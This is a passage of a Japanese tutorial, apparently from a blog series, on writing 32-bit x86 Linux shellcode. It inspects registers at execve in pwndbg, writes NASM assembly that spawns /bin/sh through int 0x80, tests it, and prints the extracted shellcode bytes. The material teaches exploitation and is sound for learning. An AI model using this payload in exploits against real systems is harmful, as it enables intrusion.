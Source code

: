 ```
*EIP  0x8054232 (execve+18) ◂— call dword ptr gs:[0x10]
```
pwndbgは親切にも、その時のレジスタの状態を表示してくれます。
そして、これを見る限り、`ebx`が`/bin/sh`こと`argv[0]`に対応し、`ecx`が`argv`こと`{"/bin/sh", NULL}`に対応し、`edx`が`NULL`こと0に対応していると分かります。またシステムコール番号は`0xb`であるようです。

あとは前回と同じようにこれをセットし、システムコールを発行すれば良いでしょう。
(32bitは`syscall`ではなく`int 0x80`がシステムコールに対応します。)

よって以下のようにアセンブリコードを作成します。
```
; shellcode_x86.asm
global _start
section .text

_start:
	xor edx, edx

	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp

	push edx
	push ebx
	mov ecx, esp

	xor eax, eax
	mov al, 0xb
	int 0x80
```

そして、以下のようにシェルを32ビット対応で起動するバイナリを作成、実行してみます。
```
$ nasm -f elf -o shellcode_x86.o shellcode_x86.asm
$ ld -m elf_i386 -o shellcode_x86 shellcode_x86.o
$ ./shellcode_x86
sh-5.2$ echo hi
hi
sh-5.2$ exit
exit
$
```
正しく作成できていそうです。

ではシェルコードとしての体裁を整えていきましょう。
```
objdump -M intel -d shellcode_x86 | grep '^ ' | cut -f2 | perl -pe 's/(\w{2})\s+/\\x\1/g'
```
作成されたシェルコードは以下のとおりです。
```
\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x31\xc0\xb0\x0b\xcd\x80
```
